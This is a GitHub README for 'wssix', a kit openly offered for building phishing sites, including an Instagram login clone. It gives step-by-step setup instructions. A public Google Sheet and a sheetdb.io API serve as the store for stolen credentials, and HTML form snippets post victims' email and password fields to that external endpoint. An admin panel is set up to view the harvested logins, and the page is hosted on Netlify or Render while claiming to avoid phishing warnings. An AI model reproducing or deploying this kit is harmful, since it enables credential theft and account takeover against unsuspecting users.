 
# wssix
wssix helps you to create your own phishing tool.

## Benefits of this tool

- Admin panel 
- 24/7 Online 
- No phishing warnings on webpage
- Create unlimited custom phish websites


## **CREATING API key** ...

- First you have to create blank google sheet.
- Make this sheet public and inside this sheet type email and password on first two cells like this :


![](https://raw.githubusercontent.com/Harsh-bash/wssix/aurora/images/screenshot.png)



- Now go to [sheetdb.com](https://sheetdb.io/). Create account and click on create new api and inside this paste your google sheet url ( which we created in first step ).
 
- After this your api key is ready. Api is looks like 

```
	https://sheetdb.io/api/v1/xvxbpk*******
```




## **Setup phish page**  ...

- Now, First clone this repository
```bash
git clone https://github.com/Harsh-bash/wssix
```
- Inside **client** folder , Open **index.html** file.

- In this file search this string : 
```bash
https://your-api
```
and replace this with Your API.


## **Setup Admin Panel**  ...
- Now open **Admin-wssix** Folder.
- Goto **/static/js/** folder and open **main.864cb797.js** file.

- In this file search this string :
```bash 
http://your-sheetdb-api
```
and replace with your  **sheetdb** api.

**All done.....**

Now host **Admin-wssix** folder and **Instagram-phish** folder separately.
For hosting : 

- [**Netlify**](https://netlify.com/)
- [**Render**](https://render.com/)

### Now! we have our own phishing page

## **How this work!!**

**wssix use [**google sheets**](https://render.com/) for database and [**sheetdb.io**](https://sheetdb.io) for api.**

To send data from your **HTML FORM** to google sheets
- set you form tag **id,method,action and submit** as follow:

```javascript
<form id="sheetdb-form" method="post" action="https://YOUR_SHEETDB_API">
```

- Set **name** in username input tag as follow : 
```javascript
name="data[email]"
```

- Set **name** in password input tag as follow : 
```javascript
name="data[password]"
```

- Set Submit button as follow : 
```javascript
type="submit" name="submit"
```

**Now all data from this form is save in your google sheets and you can access it with this admin panel.**

